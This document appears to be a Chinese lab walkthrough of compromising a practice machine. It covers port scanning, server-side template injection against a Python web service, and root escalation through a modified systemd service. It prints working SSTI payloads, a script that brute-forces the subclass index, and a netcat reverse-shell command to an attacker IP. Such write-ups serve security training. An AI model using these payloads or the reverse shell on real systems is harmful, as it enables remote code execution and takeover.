# 信息收集

## nmap





# web

## 80端口

80端口是apache服务器默认页面，并且扫目录也没有有用信息

## 18000端口

18000端口可以注册和登录，但是注册需要邀请码

## 50000端口

从请求头中可以看到服务器后端是python写的



### SSTI模板注入

访问`verify`回显`code`，尝试将`code`作为参数分别以`get`和`post`提交,以get提交时回显还是code，以post提交命令执行时会显示500，服务器错误，但是提交数学表达式时可以正常回显





这里就联想到ssti模板注入，简单测试一下的确可以回显方法



构造ssti模板注入语句，这里对payload做一个解释

```
"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval'](./"__import__('os').popen('ls').read()")

尝试时118也是可以命令执行的
```


> _\_class__:查看当前类型的所属对象
>
> _\_base__:查看当前对象的父类
>
> _\_mro__::查看当前对象的所有父类
>
> _\_subclassses__()：查看当前父类下的所有子类
>
> _\_subclassses__()[1]：查看当前父类下的第二个子类，0表示第一个
>
> _\_init__:查看是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载
>
> _\_globals__:返回当前对象的全部全局变量，查看可以使用的函数
>
> _\_builtins__:提供对Python的所有内置标识符的直接访问
>
> eval()计算字符串表达式的值
>
> popen()：执行一个shell以运行命令来开启一个进程
>
> 117是os._wrap_close

如何找到117号是这个方法呢，可以使用`"".__class__.__base__.__subclasses__()`回显所有子类，然后将所有子类粘贴出来之后将逗号替换为换行，删除没用的信息，使用notepad可以直接显示行数，还需要注意的是notepad显示的行数是118，但是该方法的参数中0表示的是第一个，所以117才是`os._wrap_close`

也可以使用python脚本来实现

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":"().__class__.__base__.__subclasses__()["+str(i)+"]"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os._wrap_close' in str(response.content):
                print(i)
    except:
        pass

```



可以成功命令执行之后就可以反弹shell

```
code="".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval'](./"__import__('os').popen('nc 192.168.45.243 80 -e /bin/bash').read()")
```



# 提权



修改该文件中execstart的命令，和启用的user，为了再靶机中修改需要得到一个稳定的shell，可以使用[brightio/penelope: Penelope Shell Handler](./https://github.com/brightio/penelope?source=post_page-----a66be76a6503---------------------------------------)



并且cmeeks用户还有重启的权限，修改之后重启靶机，攻击机监听指定端口就可以得到root的shell



